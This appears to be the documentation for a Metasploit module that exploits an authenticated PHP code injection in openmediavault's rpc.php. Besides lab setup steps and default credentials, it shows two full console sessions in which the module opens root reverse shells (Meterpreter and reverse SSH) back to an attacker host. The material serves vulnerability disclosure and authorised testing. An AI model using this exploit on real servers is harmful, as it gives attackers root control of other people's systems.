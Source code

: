 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault versions before 4.1.36
  and 5.x versions before 5.5.12 inclusive in the `sortfield`
  POST parameter of the `rpc.php` page, because `json_encode_safe()`
  is not used in `config/databasebackend.inc`.
  Successful exploitation grants attackers the ability to execute
  arbitrary commands on the underlying operating system as root.


### Installation And Setup

  1. Download version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO.
  Follow the install prompts and note the `root` password you choose to use.
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Options

  **TARGETURI**

  The URI path for OpenMediaVault installation

  **USERNAME**

  The username for OpenMediaVault

  **PASSWORD**

  The password for OpenMediaVault

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11 With Linux Dropper Payload
```
msf > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.29.95.98:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 9 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 172.29.90.121
[*] Meterpreter session 1 opened (172.29.95.98:4444 -> 172.29.90.121:59890) at 2020-11-09 11:26:22 -0600
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root @ openmediavault (uid=0, gid=0, euid=0, egid=0)
meterpreter > getwd
/
meterpreter > shell
Process 930 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
exit
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.29.90.121 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(unix/webapp/openmediavault_rpc_rce) >
```

### OpenMediaVault 5.5.11 With Unix In-Memory Payload
```
msf > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf exploit(unix/webapp/openmediavault_rpc_rce) > set TARGET 1
TARGET => 1
msf exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.90.121    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path of the OpenMediaVault installation
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       The OpenMediaVault username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_ssh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.29.95.98     yes       The listen address (an interface may be specified)
   LPORT  22               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Unix In-Memory)


msf exploit(unix/webapp/openmediavault_rpc_rce) > set LPORT 9988
LPORT => 9988
msf exploit(unix/webapp/openmediavault_rpc_rce) > run

[*] Started SSH reverse handler on ssh://172.29.95.98:9988
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 6 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (158 bytes)...
[*] SSH command shell session 2 opened (127.0.0.1 -> 127.0.0.1) at 2020-11-09 11:28:39 -0600

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
pwd
/
```
